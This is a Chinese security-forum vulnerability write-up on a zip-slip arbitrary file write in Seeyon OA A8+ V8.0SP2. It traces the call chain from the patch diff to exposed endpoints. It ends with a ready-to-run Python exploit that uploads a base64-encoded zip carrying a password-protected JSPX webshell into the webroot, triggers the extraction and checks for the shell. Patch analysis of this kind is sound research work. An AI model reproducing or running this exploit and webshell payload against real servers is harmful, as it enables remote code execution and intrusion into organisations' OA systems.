# 致远 OA ofd 解压漏洞分析 - 先知社区

致远 OA ofd 解压漏洞分析

- - -

### 环境

A8+ 集团版 V8.0SP2

### 补丁对比

下载官网补丁

[https://service.seeyon.com/patchtools/tp.html#/patchList?type=%E5%AE%89%E5%85%A8%E8%A1%A5%E4%B8%81&id=166](https://service.seeyon.com/patchtools/tp.html#/patchList?type=%E5%AE%89%E5%85%A8%E8%A1%A5%E4%B8%81&id=166)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220171941-2d8c70c6-cfd1-1.png)

通过与 A8+ 集团版 V8.0SP2 中的`seeyon-apps-edoc/com/seeyon/apps/govdoc/gb/util/OfdJavaZipUtil.class` 对比

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220171950-32f997c8-cfd1-1.png)

### 漏洞分析

发现在`OfdJavaZipUtil.class#unzip`方法中有一处明显改动

在遍历压缩包内文件时，最新补丁做了如下改动

```plain
public static void unzip(String fileName, String path, Map<String, String> charsetMap) {
    try {
        ZipFile zf = getZipFile(new File(fileName), charsetMap);
        Enumeration en = zf.entries();

        while(en.hasMoreElements()) {
            ZipEntry zn = (ZipEntry)en.nextElement();
            File f = new File(path, zn.getName());
            File f1 = new File(Strings.getCanonicalPath(f.getPath()));
            if (!FileUtil.inDirectory(f1, new File(path))) {
                LOGGER.error("发现文件解压漏洞攻击行为： " + AppContext.currentUserName() + " 文件路径：" + f1.getAbsolutePath());
                return;
            }

            ...
```

判断当前遍历的文件路径是否在指定的路径`path`下，如果不在则不继续执行操作。

V8.0SP2 中的`unzip`方法

```plain
public static void unzip(String fileName, String path, Map<String, String> charsetMap) {
    FileOutputStream fos = null;
    InputStream is = null;

    try {
        ZipFile zf = getZipFile(new File(fileName), charsetMap);
        Enumeration en = zf.entries();

        while(true) {
            ZipEntry zn;
            do {
                do {
                    if (!en.hasMoreElements()) {
                        return;
                    }

                    zn = (ZipEntry)en.nextElement();
                } while(zn.isDirectory());
            } while(".ofd".equals(zn.getName()));

            is = zf.getInputStream(zn);
            File f = new File(path + zn.getName());
            File file = f.getParentFile();
            file.mkdirs();
            fos = new FileOutputStream(path + zn.getName());
            int len = false;
            byte[] bufer = new byte[BUFFERSIZE];

            int len;
            while(-1 != (len = is.read(bufer))) {
                fos.write(bufer, 0, len);
            }

            is.close();
            fos.close();
        }
            ...
```

在之前的版本中，并没有验证压缩包中文件路径是否存在传入的`path`路径中，并且在 104 行处

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172003-3ade6df6-cfd1-1.png)

直接将压缩包内文件名拼接到文件路径当中，然后再将压缩包内文件写入到该`path+zn.getName()`的新创建的文件中。

这里如果我们在压缩包内构造一个文件名为`../../test.jspx`文件，在没有更新补丁情况下，可以将文件写入到任意路径下。

以上，我们通过对比补丁，发现了`OfdJavaZipUtil#unzip` 解压文件名路径可控的漏洞利用的点，接下来，我们还需要找到`fileName`变量可控一条漏洞利用的路径。

查找`OfdJavaZipUtil`调用

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172012-4006184c-cfd1-1.png)

在`com/seeyon/apps/govdoc/gb/manager/impl/GovdocGBManagerImpl.java#getOfdMetadata`中调用了`OfdJavaZipUtil#unzip`

```plain
private Map<String, Object> getOfdMetadata(Long fileId, File sourceFile, boolean onlyRead, Map<String, String> charsetMap) throws BusinessException {
      new HashMap();

      try {
         String sourceFilePath = sourceFile.getPath();
         String unzipFilePath = SystemEnvironment.getSystemTempFolder() + File.separator + "ofd" + File.separator + fileId + File.separator;
         OfdFileUtil.delFolder(unzipFilePath);
         OfdJavaZipUtil.unzip(sourceFilePath, unzipFilePath, charsetMap);
         String ofdxmlPath = unzipFilePath + File.separator + "OFD.xml";
         Map<String, Object> metadataMap = OfdXmlUtil.getMetadataOfdXml(ofdxmlPath);
         if (onlyRead) {
            OfdFileUtil.delFolder(unzipFilePath);
         }

         return metadataMap;
      } catch (Exception var10) {
         LOGGER.error("获取OFD元数据失败", var10);
         throw new BusinessException();
      }
   }
```

这个方法作用就是传入`fileId`和`sourceFile`，调用`OfdJavaZipUtil.unzip`对`sourceFile`解压，并获得解压路径下的`OFD.xml`中的数据。我们主要关注`sourceFile`变量是否可控，很显然，这个调用这个方法需要传入`sourceFile`。

接下来，继续看哪儿调用了`com/seeyon/apps/govdoc/gb/manager/impl/GovdocGBManagerImpl.java#getOfdMetadata`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172031-4b69a78a-cfd1-1.png)

总共两个调用

```plain
1102 行
GovdocGBManagerImpl.java#getOfdMetadata(Long fileId)

1133 行
GovdocGBManagerImpl.java#resetOfdMetadata(Long fileId, Map<String, Object> newmetadataMap)
```

这里主要通过 1102 行的`GovdocGBManagerImpl.java#getOfdMetadata(Long fileId)`方法来触发调用。

继续回溯

`GovdocGBManagerImpl.java#getOfdMetadata(Long fileId)`

```plain
public Map<String, Object> getOfdMetadata(Long fileId) throws BusinessException {
    File file = this.fileManager.getFile(fileId);
    if (file == null) {
        return null;
    } else {
        Map<String, Object> metaDataMap = this.getOfdMetadata(fileId, file, true, (Map)null);
        return this.convertMetaDataMap(metaDataMap);
    }
}
```

在这个方法中，通过`fileId`获取了对应的文件，这里获取到的文件则会传入到`this.getOfdMetadata(fileId, file, true, (Map)null)`中，即可作为我们上一个方法的`sourceFile`变量。

所以，到这里，如果`fileId`可以通过外部控制，我们我们只需要找到一个可以上传`zip`文件的地方，并且获取到`fileId`，我们即可实现任意文件任意路径写入

继续回溯

在`com/seeyon/apps/edoc/api/EdocApiImpl.java#getOfdMetaDataFromOfdFile(Long ofdFileId)`调用了`getOfdMetadata(ofdFileId)`方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172110-62b975c8-cfd1-1.png)

继续回溯

在`com/seeyon/ctp/common/content/mainbody/MainbodyController.java#invokingForm`中

```plain
public ModelAndView invokingForm(HttpServletRequest request, HttpServletResponse response) throws BusinessException {
      ModelAndView content = null;

      try {
         Map params = request.getParameterMap();
         String isNew = ParamUtil.getString(params, "isNew", false);
         long moduleId = ParamUtil.getLong(params, "moduleId", -1L, false);
         Long formId = ParamUtil.getLong(params, "formId", -1L, false);
         int moduleType = ParamUtil.getInt(params, "moduleType", -1, false);
         String openFrom = ParamUtil.getString(params, "openFrom", false);
         AppContext.putThreadContext("openFrom", openFrom);
         String contentDataId = ParamUtil.getString(params, "contentDataId", "");
         AppContext.putThreadContext("contentDataId", contentDataId);
         String isFromFrReport = ParamUtil.getString(params, "isFromFrReport", false);
         if (isFromFrReport != null) {
            Map p = new HashMap();
            p.put("contentDataId", moduleId);
            List<CtpContentAll> contentList = DBAgent.findByNamedQuery("ctp_common_content_findByContentDataId", p);
            if (contentList == null || contentList.size() <= 0) {
               throw new BusinessException("帆软报表穿透失败，未找到内容，内容ID：" + moduleId);
            }

            CtpContentAll tempContent = (CtpContentAll)contentList.get(0);
            moduleId = tempContent.getModuleId();
            moduleType = tempContent.getModuleType();
         }

         String style = ParamUtil.getString(params, "style");
         AppContext.putThreadContext("style", style);
         ModuleType mType = null;
         if (moduleType != -1) {
            mType = ModuleType.getEnumByKey(moduleType);
            if (mType == null) {
               throw new BusinessException("moduleType is not validate!");
            }
         }

         String rightId = ParamUtil.getString(params, "rightId", "", false);
         Integer indexParam = ParamUtil.getInt(params, "indexParam", 0);
         int viewState = ParamUtil.getInt(params, "viewState", 2);
         Long fromCopy = ParamUtil.getLong(params, "fromCopy", -1L, false);
         List<CtpContentAllBean> contentList = null;
         CtpContentAllBean contentAll = null;
         StringBuilder oldElementStr1 = new StringBuilder();
         String rememberStyle;
         if (isNew != null && !"false".equals(isNew.trim())) {
            Map<String, Object> map = new HashMap();
            rememberStyle = request.getParameter("distributeContentDataId");
            String distributeContentTemplateId = request.getParameter("distributeContentTemplateId");
            if (Strings.isNotBlank(rememberStyle)) {
               map.put("distributeContentDataId", rememberStyle);
            }

            if (Strings.isNotBlank(distributeContentTemplateId)) {
               map.put("distributeContentTemplateId", distributeContentTemplateId);
            }

            String forwardAffairId = request.getParameter("forwardAffairId");
            if (Strings.isNotBlank(forwardAffairId)) {
               AffairManager affairManager = (AffairManager)AppContext.getBean("affairManager");
               CtpAffair affair = affairManager.get(Long.valueOf(forwardAffairId));
               map.put("forwardSubject", affair.getSubject());
            }

            map.put("formId", formId);
            map.put("oldSummaryId", request.getParameter("oldSummaryId"));
            map.put("signSummaryId", request.getParameter("signSummaryId"));
            map.put("forwardSummaryId", request.getParameter("forwardSummaryId"));
            String summaryId = request.getParameter("summaryId");
            if (!Strings.isBlank(summaryId)) {
               map.put("oldSummaryId", summaryId);
            }

            String oldElementStr = ParamUtil.getString(params, "oldElements");
            Map<String, String> oldElementMap = new HashMap();
            if (Strings.isNotBlank(oldElementStr)) {
               try {
                  oldElementStr = oldElementStr.replaceAll("%(?![0-9a-fA-F]{2})", "%25");
                  oldElementStr = URLDecoder.decode(oldElementStr, "UTF-8");
               } catch (UnsupportedEncodingException var35) {
                  oldElementStr = "";
               }

               String[] oldElementArr = oldElementStr.split("@");
               String[] var30 = oldElementArr;
               int var31 = oldElementArr.length;

               for(int var32 = 0; var32 < var31; ++var32) {
                  String string = var30[var32];
                  String[] arr = string.split(":");
                  oldElementMap.put(arr[0], arr[1]);
               }
            }

            String ofdFileId = request.getParameter("ofdFileId");
            String subApp = request.getParameter("subApp");
            if (Strings.isNotBlank(ofdFileId)) {
               map.put("ofdFileId", ofdFileId);
               if ("2".equals(subApp)) {
                  Map metaDataMap = this.edocApi.getOfdMetaDataFromOfdFile(Long.parseLong(ofdFileId));
                  if (null != metaDataMap) {
                     Iterator var47 = metaDataMap.keySet().iterator();

                     while(var47.hasNext()) {
                        Object key = var47.next();
                        oldElementMap.put(key.toString(), metaDataMap.get(key).toString());
                     }
                  }
               }
            }
```

在`374`行调用了`EdocApiImpl.java#getOfdMetaDataFromOfdFile`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172124-6b462baa-cfd1-1.png)

在`369`行可以发现`fileId`外部可控。

经过分析，执行到`Map metaDataMap = this.edocApi.getOfdMetaDataFromOfdFile(Long.parseLong(ofdFileId));`需要满足几个条件。

-   `isNew`参数值不能为`Null`和`false`
-   `subApp`只能等于 2

继续回溯可发现调用到`com/seeyon/ctp/common/content/mainbody/MainbodyController.java`的路由`/content/content.do`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172141-752c48c0-cfd1-1.png)

熟悉致远的朋友应该都知道，通过路由调用`MainbodyController`类的`invokingForm`方法时，只需要在指定`method`参数为`invokingForm`即可

如

```plain
http://xx.xx.xx.xx/seeyon/content/content.do?method=invokingForm
```

到这里，我们一条漏洞利用的路线就走通了，

-   请求`http://xx.xx.xx.xx/seeyon/content/content.do?method=invokingForm`
    -   传入 zip 的`fileId`、`isNew=ture`、`subApp=2`。
-   调用`this.edocApi.getOfdMetaDataFromOfdFile(Long.parseLong(ofdFileId));`
-   调用`this.govdocGBManager.getOfdMetadata(ofdFileId);`
-   调用`this.getOfdMetadata(fileId, file, true, (Map)null);`
-   调用`OfdJavaZipUtil.unzip(sourceFilePath, unzipFilePath, charsetMap);`
-   控制`fos = new FileOutputStream(path + zn.getName());`中的`zn.getName()`为`../../../../ApacheJetspeed/webapps/ROOT/mzr.jspx`实现在任意文件写入。

到目前为止，我们距离`getshell`只完成了一半，接下来，我们还需要制作一个特殊的`zip`文件，并且找到一个可以上传`zip`，并且获得该文件得`fileId`的功能点。

**zip 制作**

主要问题是在操作系统无法使用`/`作为文件名使用，所以，这里通过制作一个携带 webshell 的压缩包，通过`010 editor`修改文件名即可。（需要修改两处）

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172154-7c9a7622-cfd1-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172159-801b27a6-cfd1-1.png)

接下来，最最重要的，就是需要找到一个上传 zip 的地方。

那么要怎么找呢？

在`com/seeyon/apps/govdoc/gb/manager/impl/GovdocGBManagerImpl.java#getOfdMetadata`方法中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172205-83a0de7a-cfd1-1.png)

通过`fileId`获取文件，那么是否也可以保存文件呢？

在`FileManager.java`接口中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172217-8a93a262-cfd1-1.png)

可以发现是有`save`接口的

接下来全局搜索`fileManager.save`，还挺多

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172223-8e3b1a8a-cfd1-1.png)

在`com/seeyon/ctp/rest/resources/EditContentResource.java#saveFile()`方法中

```plain
public Response saveFile() throws BusinessException {
     Map<String, Object> map = new HashMap();
     Date today = new Date();
     Long fileId = Long.valueOf(this.request.getParameter("fileId"));
     String _createDate = this.request.getParameter("createDate");
     Date createDate = Datetimes.parse(_createDate);
     String notJinge2StandardOffice = this.request.getParameter("notJinge2StandardOffice");
     String type = this.request.getParameter("type");

     try {
         CommonsMultipartResolver resolver = (CommonsMultipartResolver)AppContext.getBean("multipartResolver");
         HttpServletRequest req = resolver.resolveMultipart(this.request);
         MultipartHttpServletRequest multipartRequest = (MultipartHttpServletRequest)req;
         Iterator<String> fileNames = multipartRequest.getFileNames();
         if (fileNames == null) {
             map.put("error_msg", ResourceUtil.getString("common.content.fileName.blank"));
             return this.ok(map);
         }

         while(fileNames.hasNext()) {
             Object name = fileNames.next();
             if (name != null && !"".equals(name)) {
                 MultipartFile file = multipartRequest.getFile(String.valueOf(name));
                 String bakOldPath = this.fileManager.getFolder(createDate, true) + File.separator + fileId;
                 String filePath = this.fileManager.getFolder(today, true) + File.separator + fileId;
                 this.bakPhysicalFile(filePath, bakOldPath, fileId, today);
                 String tempFile = SystemEnvironment.getSystemTempFolder() + File.separator + UUIDLong.absLongUUID();
                 boolean isSuccessSave = false;
                 isSuccessSave = this.saveTempFile(tempFile, file);
                 if (!"true".equals(notJinge2StandardOffice) && "collaboration".equals(type)) {
                     boolean toJingge = Util.jinge2StandardOffice(tempFile, tempFile);
                     if (isSuccessSave && !toJingge) {
                         LOGGER.error("office正文转为标准office的时候失败,toJingge:" + toJingge);
                     }

                     isSuccessSave = toJingge;
                 }

                 try {
                     CoderFactory.getInstance().encryptFile(tempFile, filePath);
                 } catch (Exception var30) {
                     LOGGER.error("filePath=" + filePath);
                     LOGGER.error("CoderFactory.getInstance() Exception:", var30);
                 }

                 if (isSuccessSave) {
                     V3XFile v3xfile = this.fileManager.getV3XFile(fileId);
                     Integer category = Integer.valueOf(this.request.getParameter("category"));
                     this.officeTransManager.clean(fileId, Datetimes.format(today, "yyyyMMdd"));
                     boolean isNew = false;
                     String realFileType;
                     if (null == v3xfile) {
                         v3xfile = new V3XFile();
                         isNew = true;
                         v3xfile.setId(fileId);
                         v3xfile.setCategory(category);
                         v3xfile.setFilename(fileId.toString());
                         v3xfile.setSize(file.getSize());
                         realFileType = this.request.getParameter("fileType");
                         String mimeType = "msoffice";
                         if (".docx".equals(realFileType)) {
                             mimeType = "application/vnd.openxmlformats-officedocument.wordprocessingml.document";
                         } else if (".doc".equals(realFileType)) {
                             mimeType = "application/msword";
                         } else if (".xls".equals(realFileType)) {
                             mimeType = "application/vnd.ms-excel";
                         } else if (".xlsx".equals(realFileType)) {
                             mimeType = "application/vnd.openxmlformats-officedocument.spreadsheetml.sheet";
                         }

                         v3xfile.setMimeType(mimeType);
                     }

                     realFileType = Datetimes.format(new Date(System.currentTimeMillis()), "yyyy-MM-dd HH:mm:ss");
                     v3xfile.setUpdateDate(Datetimes.parseDate(realFileType));
                     User user = AppContext.getCurrentUser();
                     if (user != null) {
                         v3xfile.setCreateMember(user.getId());
                         v3xfile.setAccountId(user.getAccountId());
                     }

                     v3xfile.setCreateDate(today);
                     v3xfile.setUpdateDate(today);
                     if (!isNew) {
                         this.fileManager.update(v3xfile);
                     } else {
                         this.fileManager.save(v3xfile);
                     }
...
```

`saveFile`方法中从`request`请求中获取了`fileId`、`createDate`、`notJinge2StandardOffice`等参数

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172235-954a9f80-cfd1-1.png)

84-103 行从`reques`请求中获取了上传的文件，并通过调用`this.saveTempFile(tempFile, file)`将上传的文件保存在`Seeyon/A8/base/temporary/`路径下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172242-999a0454-cfd1-1.png)

121 行会先通过`fileId`去查找`V3XFile`对象，如果没有则重新创建，再设置`fileId`、`category`等属性值。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172250-9e852c50-cfd1-1.png)

最后 161 行调用了`this.fileManager.save(v3xfile);`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172256-a1ee7392-cfd1-1.png)

通过该接口即可上传我们的 zip 文件，并且`fileId`是我们可以控制的。

请求该接口的路径为

```plain
http://xx.xx.xx.xx/seeyon/rest/editContent/saveFile
```

### 漏洞利用

漏洞利用脚本

```plain
import requests
import base64

host = "http://172.20.10.22"

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36",
    "Cookie": "JSESSIONID=ECA7A2CD059B38DE39A3DEFAB4E365C4"
}


# ../../../../ApacheJetspeed/webapps/ROOT/mzr.jspx 文件路径
# zip 文件内容 base64 编码
# UEsDBBQAAAAIANu5XVHzGO9FtgIAAOkFAAAwAAAALi4vLi4vLi4vLi4vQXBhY2hlSmV0c3BlZWQvd2ViYXBwcy9ST09UL216ci5qc3B4rVTfT9swEH4Gif/By5ODOrcDCoySSpQVaRvb0EqfEA+Oc20NqZPZTtcI9X/fOU5YKC9MWtRK5/Pd990v3/mDyc90llmyXqbKnOExChbW5mfd7gNfcWYKxUS27H6Z3HRv+BwCsgJtZKai4AM7CIYVQCI1CCtXwHI0IXKZZ9pGQQVQWJmy/U4ly6yW1kzoMrevjiYH0RinXM3ZftAd7u16EhAp19wiN6pQNoZMCawtqMSQS3e+zngCmjzt7e5MaVsjwkq5Y4ocNBXhAA8b/OdFnErhncmcxqWFu3sS19YabKEVqZxYAjOpoLKkcYf0OiRmKai5XTRo+Dvvvo60Ct4ILXObgkWF1WUFP7Faqjl5hDIKPvZ6sTg97Scn/f7h4Uk/GPgAfhVgLDNgLyxax4UFGpjHMug4t3DQgkm45VHjMAf7E1zmNGQahWsMnXpzOSPU2b6LiCrStE61QcHmkohMSmNh6VBudIbJ25L6Zta9DzzUTl0vkSUQOTCnJfXneNDcDU/ONdxmFAfmNAjJMCI9z0pan2/BiBs4PiKRP7JZpr/zJdDWJHkLH0Db/0f8gCNIPoELxuXgDV0O38AusoQGKNbXWD4/Hnf3oa8Ck2qVPQL1Xnjt8Z7vt+kcDJLUExM2vI7Oj0jYZk6qW2RV8JvUxE/elVWDvHkOoAbypk0QT65hDnCEPoYG09ur91jKzYuwNgRSA/9YWPe8l9IINrqYjI+Pava3lxej/KyM5UoA/S9FGhWzGeitUvnhfHuptgpTzeqlzBduE7gaVKLjfo49uBhPmqkWSCAtPfDAExC4B75COcHdRPHV/e1D2CHer3Z05lNqF9JspdhaRTREDRUsya6k4il1KYThyzoyfMU8NdQt08tMWdxxnsFlshHcigUdrwXkbsMQCLHlm0GzfNqbxmvceh/+AVBLAQIfABQAAAAIANu5XVHzGO9FtgIAAOkFAAAwACQAAAAAAAAAIAAAAAAAAAAuLi8uLi8uLi8uLi9BcGFjaGVKZXRzcGVlZC93ZWJhcHBzL1JPT1QvbXpyLmpzcHgKACAAAAAAAAEAGAAAKyVBBq7WAfv0tPzSyNkBzgG+GmrI2QFQSwUGAAAAAAEAAQCCAAAABAMAAAAA 


# 上传特殊构造的 zip 文件
file_content  = "UEsDBBQAAAAIANu5XVHzGO9FtgIAAOkFAAAwAAAALi4vLi4vLi4vLi4vQXBhY2hlSmV0c3BlZWQvd2ViYXBwcy9ST09UL216ci5qc3B4rVTfT9swEH4Gif/By5ODOrcDCoySSpQVaRvb0EqfEA+Oc20NqZPZTtcI9X/fOU5YKC9MWtRK5/Pd990v3/mDyc90llmyXqbKnOExChbW5mfd7gNfcWYKxUS27H6Z3HRv+BwCsgJtZKai4AM7CIYVQCI1CCtXwHI0IXKZZ9pGQQVQWJmy/U4ly6yW1kzoMrevjiYH0RinXM3ZftAd7u16EhAp19wiN6pQNoZMCawtqMSQS3e+zngCmjzt7e5MaVsjwkq5Y4ocNBXhAA8b/OdFnErhncmcxqWFu3sS19YabKEVqZxYAjOpoLKkcYf0OiRmKai5XTRo+Dvvvo60Ct4ILXObgkWF1WUFP7Faqjl5hDIKPvZ6sTg97Scn/f7h4Uk/GPgAfhVgLDNgLyxax4UFGpjHMug4t3DQgkm45VHjMAf7E1zmNGQahWsMnXpzOSPU2b6LiCrStE61QcHmkohMSmNh6VBudIbJ25L6Zta9DzzUTl0vkSUQOTCnJfXneNDcDU/ONdxmFAfmNAjJMCI9z0pan2/BiBs4PiKRP7JZpr/zJdDWJHkLH0Db/0f8gCNIPoELxuXgDV0O38AusoQGKNbXWD4/Hnf3oa8Ck2qVPQL1Xnjt8Z7vt+kcDJLUExM2vI7Oj0jYZk6qW2RV8JvUxE/elVWDvHkOoAbypk0QT65hDnCEPoYG09ur91jKzYuwNgRSA/9YWPe8l9IINrqYjI+Pava3lxej/KyM5UoA/S9FGhWzGeitUvnhfHuptgpTzeqlzBduE7gaVKLjfo49uBhPmqkWSCAtPfDAExC4B75COcHdRPHV/e1D2CHer3Z05lNqF9JspdhaRTREDRUsya6k4il1KYThyzoyfMU8NdQt08tMWdxxnsFlshHcigUdrwXkbsMQCLHlm0GzfNqbxmvceh/+AVBLAQIfABQAAAAIANu5XVHzGO9FtgIAAOkFAAAwACQAAAAAAAAAIAAAAAAAAAAuLi8uLi8uLi8uLi9BcGFjaGVKZXRzcGVlZC93ZWJhcHBzL1JPT1QvbXpyLmpzcHgKACAAAAAAAAEAGAAAKyVBBq7WAfv0tPzSyNkBzgG+GmrI2QFQSwUGAAAAAAEAAQCCAAAABAMAAAAA"
res = requests.post(url=host+"/seeyon/rest/editContent/saveFile?fileId=9095842667142857911&category=1", headers=headers, files={"file": base64.b64decode(file_content)})
# print(res.text)
# 解压文件 RCE
requests.get(url=host+"/seeyon/content/content.do?method=invokingForm&subApp=2&ofdFileId=9095842667142857911&isNew=true",headers=headers)
# print(res.text)

# 验证
if(requests.get(url=host+"/mzr.jspx").status_code == 200):
    print("[+] 上传成功 ")
    print("[+] 利用路径  %s/mzr.jspx 密码：sky"%(host))
else:
    print("[-] 利用失败")
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172308-a92f4438-cfd1-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220172314-ac74e936-cfd1-1.png)
